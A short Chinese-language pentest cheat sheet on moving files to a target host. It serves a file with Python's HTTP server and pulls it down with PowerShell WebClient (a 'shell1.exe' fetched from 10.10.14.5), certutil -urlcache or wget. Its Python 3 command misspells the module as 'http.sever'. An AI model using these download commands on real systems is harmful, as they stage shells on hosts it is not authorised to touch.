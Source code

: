 # 文件传输

---

- 首先要在本地机器上开启HTTP服务（在被传文件的同一路径下）：

```
python2 -m SimpleHTTPServer
python3 -m http.sever
```

---



## windows

- powershell

```
PowerShell (new-object Net.WebClient).DownloadFile('http://10.10.14.5:8082/shell1.exe','c:\Users\tolis\Desktop\shell1.exe')
```

- [certutil](https://zhuanlan.zhihu.com/p/107819644) windows自带渗透测试文件

```
certutil -f -urlcache http://10.10.14.3/file.exe renamefile.exe
certutil.exe -urlcache -split -f http://example.com/file.txt
```

## linux

- wget

```
需要切换到/tmp目录下，才具有下载权限
wget http://example.com:port/filename.txt
```

